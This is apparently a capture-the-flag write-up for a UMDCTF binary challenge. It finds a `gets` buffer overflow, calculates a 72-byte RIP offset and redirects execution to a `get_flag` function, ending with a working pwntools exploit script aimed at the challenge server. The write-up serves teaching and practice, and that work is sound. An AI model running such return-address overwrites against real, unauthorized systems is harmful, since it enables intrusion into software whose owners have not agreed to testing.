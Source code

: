 # Jump Not Easy

This is a classic buffer overflow challenge. We don't have the source code so we'll disassemble the binary using radare2.

We can see that the main function calls the `jump` function.

![](../../.gitbook/assets/931875a5a445494498bca6248aa04f47.png)

Notice that the jump function calls `gets`, which is vulnerable to buffer overflows \(it does not check the received buffer length\).

![](../../.gitbook/assets/915de40d06db4ef3931cca2f3c79fc0a.png)

We can now use `gdb` to debug the binary. Using `msf-pattern_create -l 1000`, we create a pattern that we will send to the binary.

Set a breakpoint at 0x00401304, right after the `gets` call.

```text
gef > break *0x00401304
Breakpoint 1 at 0x401304
```

After supplying our payload through the `gets` call, our breakpoint is triggered.

![](../../.gitbook/assets/76330b5d6412448cb1d162ca7989043f.png)

At this point we can analyse the stack frame _after_ receiving input, but _before_ returning from the `jump` function.

The `saved rip` value is the return address stored on the stack. We have successfully overwritten it.

![](../../.gitbook/assets/40e4364119844975b76793117e32c35e.png)

```text
msf-pattern_offset -q 0x6341356341346341
[*] Exact match at offset 72
```

Now we know that the RIP offset is 72.

There is also a `get_flag` function at `0x0040125d`. Perhaps we can redirect the program execution here, and get our flag.

![](../../.gitbook/assets/87b3ab63dfb449aa837ebddb92073e73.png)

Let's test our hypothesis. We generate our payload file: `python -c 'print "A" * 72 + "\x5d\x12\x40\x00"' > ipt.txt`, then pass it to the binary in gdb.

```text
gef > run < ipt.txt
```

Here we have overwritten the RIP to the address of `get_flag`. Continuing from the breakpoint, we get "Error when opening the file!". This means that the `get_flag` function was indeed executed!

![](../../.gitbook/assets/729f50a520a14a32955143c2375796f0.png)

Now we can obtain the flag from the server.

```python
from pwn import *

ret = 0x0040125d
offset = 72
payload = b""
payload += b"A" * offset
payload += p32(ret)
print(payload)

conn = remote('chals5.umdctf.io', 7003)

print(conn.recvuntil("Where do you want to go?\n"))
conn.send(payload + b"\n")
print(conn.recv())

conn.close()
```

![](../../.gitbook/assets/4c98891946f749e29b6ec6ce2d355847.png)

